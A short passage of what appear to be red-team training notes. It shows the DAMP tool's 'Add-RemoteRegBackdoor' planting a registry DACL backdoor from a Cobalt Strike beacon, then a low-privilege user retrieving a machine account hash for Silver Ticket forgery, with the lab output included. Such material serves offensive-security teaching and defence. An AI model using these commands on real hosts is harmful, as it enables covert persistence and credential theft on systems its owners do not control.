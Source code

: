 The [DAMP](https://github.com/HarmJ0y/DAMP) project can implement host-based DACL backdoors to enable the remote retrieval of secrets from a machine, including SAM and domain cached hashes.

`Add-RemoteRegBackdoor` can be run locally on a compromised machine, or remotely with credentials.

```
beacon> run hostname
srv-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Add-RemoteRegBackdoor -Trustee DEV\bfarmer

ComputerName BackdoorTrustee
------------ ---------------
SRV-2        DEV\bfarmer
```

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv-2

ComputerName MachineAccountHash              
------------ ------------------              
srv-2        5d0d485386727a8a92498a2c188627ec
```

See **Silver Tickets** for why this is useful.